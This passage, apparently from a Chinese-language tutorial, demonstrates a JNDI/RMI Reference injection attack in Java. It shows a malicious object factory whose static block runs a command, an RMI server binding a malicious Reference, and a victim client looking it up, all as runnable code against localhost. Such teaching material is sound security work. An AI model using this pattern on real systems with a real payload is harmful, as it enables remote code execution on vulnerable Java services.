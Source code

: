 ```java
        inBr.close();
    }

    public Object getObjectInstance(Object obj, Name name, Context context, HashMap<?, ?> environment) throws Exception{
        return null;
    }

    static {
        try{
            exec("gnome-calculator");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

可以看到这里利用的是static代码块执行命令

- 创建rmi服务端，绑定恶意的Reference到rmi注册表

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        String url = "http://127.0.0.1:6666/";
        System.out.println("Create RMI registry on port 1099");
        Reference reference = new Reference("EvilObj", "EvilObj", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("evil", referenceWrapper);
    }

}
```

- 创建一个客户端（受害者）

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
        Context context = new InitialContext();
        context.lookup("rmi://localhost:1099/evil");
    }
}
```
